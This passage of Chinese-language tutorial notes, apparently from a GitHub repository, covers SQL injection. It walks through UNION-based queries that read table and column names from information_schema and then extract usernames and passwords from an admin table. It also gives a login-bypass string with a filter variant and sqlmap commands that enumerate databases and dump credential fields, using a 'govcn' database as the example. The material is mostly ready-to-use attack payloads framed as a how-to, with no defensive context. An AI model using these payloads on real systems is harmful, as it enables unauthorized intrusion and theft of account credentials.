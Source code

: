     `xxx.php?info_id=12 and 1=2 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_name="上一步的表名";`

6. 查看账号密码

    经过4，5都知道了 表名（设admin）和字段名(设username,password)，直接查询就可以了。
    `url and 1=2 union select 1,username,password,4,5 from admin`
    * 问题：有时候显示不出来，可能是因为编码的问题，解决方法如下：
    `url and 1=2 union select 1,unhex(hex(username)),unhex(hex(password)),4,5 from admin`

### 密码绕过

原理：接受参数的 页面是这样写的：`select * from admin where username='$username' and password='$mpassword'`

在登录框里的用户名，输入 `1' or 1=1 or '1`，这样页面接受的如下：
`select * from admin where username='1' or 1=1 or '1' and password='$mpassword'`，也就是 假 or 真 or 真 and 假 = 真。（输入 `' or '=' or '` 也行）

* 变种1：针对过滤 `or`
    `1' OR 1=1 OR '1`

* 变种2：针对把 `'` replace掉的
    搞不了

## SQLMAP 的使用

* 环境：sqlmap 需要安装 Python环境
* 把 sqlmap 解压后，放到 Python 的安装目录下，即 `d:\python\sqlmap`

### 对于 access 数据库

* 因为需要猜 表名，字段名 所以和 mysql 不一样

```python
sqlmap.py  # cmd 中直接运行，测试一下能不能正常运行
sqlmap.py -u "http://xxx.asp?id=23"  # 测试该页面有没有注入漏洞
    # 如果存在可注入的参数会提示 “Get parameter 'id' is vulnerable...”
    # 还会告诉你类型 Type: boolean-based blind （盲注的意思）

sqlmap.py -u "http://xxx.asp?id=23" --tables  # 猜解所有的表
    # 如果无法直接获得表的名字，会问你是否使用 common table 来一个个配对，然后还问你开几个线程
    # 这个 common table 在 sqlmap/txt/common-tables.txt 中（如果是 Linux，在/usr/share/sqlmap/txt/common-tables.txt 中）

sqlmap.py -u "http://xxx.asp?id=23" --columns -T "user"  # 猜解字段，-T 指定表名

sqlmap.py -u "http://xxx.asp?id=23" --dump -C "username,password" -T "user"  # 查询字段的记录 
```

### 对于 mysql 数据库

```python
sqlmap.py -u "http://xxx.asp?id=23"
sqlmap.py -u "http://xxx.asp?id=23" --dbs  # 直接出 数据库
sqlmap.py -u "http://xxx.asp?id=23" --current-db  # 查询当前数据库
sqlmap.py -u "http://xxx.asp?id=23" --current-user  # 查询当前用户
sqlmap.py -u "http://xxx.asp?id=23" --version  # 查询当前数据库版本
sqlmap.py -u "http://xxx.asp?id=23" --current-dba  # 查询当前用户是不是管理员
sqlmap.py -u "http://xxx.asp?id=23" --tables -D "govcn"  # -D 指定 数据库名字
sqlmap.py -u "http://xxx.asp?id=23" --columns -T "admin" -D "govcn"  # 查询字段
sqlmap.py -u "http://xxx.asp?id=23" --dump -C "username,password" -T "admin" -D "govcn"  # 查询字段的记录
```
